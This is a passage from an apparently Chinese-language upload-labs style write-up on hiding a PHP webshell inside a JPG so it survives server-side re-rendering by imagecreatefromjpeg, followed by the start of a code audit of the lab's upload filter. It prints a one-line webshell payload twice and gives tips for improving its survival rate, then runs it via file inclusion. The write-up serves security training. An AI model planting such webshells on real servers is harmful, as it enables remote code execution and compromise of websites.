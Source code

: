 生成的新图片为：

![](https://image.201068.xyz/assets/16036747206733.jpg)     

然后上传到目标网站上面渲染一下再导出：

![](https://image.201068.xyz/assets/1603674733221.jpg)   

 那么来查看一下最终这个 JPG 里面是否带有 payload 信息：

![](https://image.201068.xyz/assets/16036748931486.png) 

无疑写 phpinfo() 是很容易成功的，但是 phpinfo() 并无实质性危害，我们需要插入真正的 webshell 才可以：

```php
$miniPayload = '<?php $_GET[0]($_POST[1]);?>';
```

> 这里非常玄学，在国光经历了不知道多少次失败后，才成功将上面的 payload 完整插入

![](https://image.201068.xyz/assets/1603675937154.jpg) 

这个图马被 imagecreatefromjpeg 渲染后如下：

![](https://image.201068.xyz/assets/16036760334176.jpg) 

查看一下 payload 是否存在：

![](https://image.201068.xyz/assets/16036761717904.png)  

完美，尝试直接文件包含来执行攻击语句试试看：

![](https://image.201068.xyz/assets/16036764145479.png)  

**JPG 坑点总结**

1. 需要被 imagecreatefromjpeg 渲染或再用工具
2. 图片找的稍微大一点 成功率更高 
3. Payload 语句越短成功率越高 
4. 一张图片不行就换一张 不要死磕
5. 国光补充：貌似白色的图片成功率也比较高
6. `<?php $_GET[0]($_POST[1]);?>` 这种payload 成功率很高

# 代码审计

代码审计这一题如果可以动态调试的话，那么理解起来就会比较简单：



![](https://image.201068.xyz/assets/16036775446476.png) 

这个题目是直接 copy Upload-labs 里面的最后一关，这个貌似还是后面新增的题目，下面是核心代码：

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
```